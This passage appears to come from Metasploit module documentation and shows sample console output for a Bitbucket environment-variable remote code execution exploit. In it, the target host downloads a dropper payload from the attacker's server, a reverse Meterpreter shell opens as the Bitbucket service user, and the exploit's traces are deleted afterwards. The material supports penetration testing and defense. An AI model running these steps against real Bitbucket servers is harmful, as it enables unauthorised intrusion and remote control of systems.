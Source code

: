 ```
Linux gitlab-virtual-machine 5.15.0-58-generic #64-Ubuntu SMP Thu Jan 5 11:43:13 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=1001(atlbitbucket) gid=1001(atlbitbucket) groups=1001(atlbitbucket)
```

### Ubuntu 22.04 x64 - Bitbucket `v7.6.17`, Linux Dropper

```
msf6 exploit(multi/http/bitbucket_env_var_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
    0   Linux Command
=>  1   Linux Dropper
    2   Windows Dropper


msf6 exploit(multi/http/bitbucket_env_var_rce) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Project creation was successful
[+] Successfully created repository 'gmoQNc'
[+] Commits added: d355924ddef6869f5bbd7673c2a2d67c14ccd56d, cbd85c6309ab2830455c1796898f9677e10227e5
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/VtgFQ7yCgjcP
[*] Client 192.168.140.149 (Wget/1.21.2) requested /VtgFQ7yCgjcP
[*] Sending payload to 192.168.140.149 (Wget/1.21.2)
[*] Command Stager progress -  53.04% done (61/115 bytes)
[*] Command Stager progress -  72.17% done (83/115 bytes)
[*] Sending stage (1017704 bytes) to 192.168.140.149
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.149:50632) at 2023-03-13 14:06:18 -0500
[*] Command Stager progress -  83.48% done (96/115 bytes)
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Changing user name back to 'test'
[+] Repository has been deleted
[+] Project has been deleted

meterpreter > getuid
Server username: atlbitbucket
```
